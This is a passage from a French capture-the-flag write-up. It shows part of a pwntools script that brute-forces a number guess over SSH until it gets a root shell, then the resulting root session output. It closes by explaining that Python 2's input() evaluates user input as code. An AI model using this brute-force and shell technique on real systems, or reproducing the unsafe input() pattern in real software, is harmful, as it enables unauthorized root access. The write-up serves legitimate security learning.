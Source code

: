 ```python
    p.sendline(b"50")                                                                                                  
    p.sendline(b"id")                                                                                                  
    buff = p.recvline_contains((b"Better Luck", b"root"))                                                              
    if b"Better Luck next time" in buff:                                                                               
        continue                                                                                                       
    else:                                                                                                              
        print(buff)                                                                                                    
        p.interactive()                                                                                                
        break                                                                                                          
ssh_sess.close()
```

Ca tombe assez rapidement :

```shellsession
$ python brute_number.py 
b'Enter your number: # uid=0(root) gid=0(root) groups=0(root)'
# pwd
/home/sam
# cd /root
# ls
lago  proof.sh
```

L'exécution du `proof.sh` affiche le flag final.

## Kansas City Shuffle

Reprennons le code Python du lago vu plus tôt :

```python
    num = randint(1, 101)
    print 'Choose a number between 1 to 100: '
    s = input('Enter your number: ')
    if s == num:
        system('/bin/sh')
```

`num` est un entier car généré par `random.randint`. `s` devrait quand à lui être une chaine de caractères car c'est le résultat de `input()` par conséquent la comparaison de `s` et `num` devrait toujours échouer (on n'est pas sur du Javascript !)

On est là sur une particularité de Python 2 : la fonction `input()` évalue ce qui est lu comme du code Python (et donc si on saisi un chiffre on obtient un chiffre). Pour être safe il faut utiliser `raw_input()`.
